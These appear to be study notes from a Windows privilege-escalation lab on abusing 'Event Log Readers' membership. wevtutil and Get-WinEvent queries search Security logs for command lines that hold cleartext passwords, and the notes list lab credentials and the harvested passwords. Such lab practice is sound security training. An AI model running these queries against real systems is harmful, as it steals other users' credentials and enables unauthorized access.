 # Event Log Readers

1) Confirming Group Membership

```
net localgroup "Event Log Readers"

Alias name     Event Log Readers
Comment        Members of this group can read event logs from local machine

Members

-------------------------------------------------------------------------------
logger
The command completed successfully.
```

2a) Searching Security Logs Using wevtutil

```
wevtutil qe Security /rd:true /f:text | Select-String "/user"

        Process Command Line:   net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

Passing Credentials to wevtutil :

```
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

OR

2b) Searching Security Logs Using Get-WinEvent

```
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

CommandLine
-----------
net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

## LAB

xfreerdp /v:10.129.205.70 /u:logger /p:HTB_@cademy_stdnt!

net localgroup "Event Log Readers"
Alias name     Event Log Readers
Comment        Members of this group can read event logs from local machine

Members

-------------------------------------------------------------------------------
logger
The command completed successfully.


wevtutil qe Security /rd:true /f:text | Select-String "/user"


        Process Command Line:   cmdkey  /add:WEB01 /user:amanda /pass:Passw0rd!
        Process Command Line:   net  use Z: \\DB01\scripts /user:mary W1ntergreen_gum_2021!
        Process Command Line:   net  use T: \\fs01\backups /user:tim MyStr0ngP@ssword
